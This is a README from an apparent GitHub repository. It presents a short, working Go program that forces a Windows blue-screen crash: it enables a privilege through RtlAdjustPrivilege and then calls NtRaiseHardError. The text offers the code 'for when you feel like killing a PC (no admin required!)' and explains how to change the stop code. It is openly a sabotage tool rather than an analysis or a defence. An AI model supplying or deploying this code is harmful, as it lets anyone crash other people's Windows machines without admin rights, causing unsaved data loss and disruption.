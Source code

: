## Invoke a BSoD In Go Lang

### Based off of [peewpw](https://github.com/peewpw/Invoke-BSOD)'s C# implementation of Windows' Native API Hard Stop abuse.

> Reference this repo for when you feel like killing a PC (**no admin required!**)
---

There isn't really anything that special going on here, we're adjusting our application's system privelege (level of importance) and invoking a system level hard-stop exception which tricks Windows into thinking something vital has broken, causing an immediate blue screen. 
(basically we walk into the club pretending to be a celebrity and fake our death for views on YouTube)
  
If you want to change the stop code just edit `0xdeadbeef` on line 17 to whatever [8-digit hexadecimal](https://en.wikipedia.org/wiki/Hexspeak) you want.

```go
package main

import (
    "syscall"
    "unsafe"
)

var (
    ntdll = syscall.NewLazyDLL("ntdll.dll")

    RtlAdjustPrivilege = ntdll.NewProc("RtlAdjustPrivilege")
    NtRaiseHardError   = ntdll.NewProc("NtRaiseHardError")
)

func main() {
    RtlAdjustPrivilege.Call(19, 1, 0, uintptr(unsafe.Pointer(new(bool))))
    NtRaiseHardError.Call(0xdeadbeef, 0, 0, uintptr(0), 6, uintptr(unsafe.Pointer(new(uintptr))))
}
```

---

For Windows Only <sub>(duh)</sub>

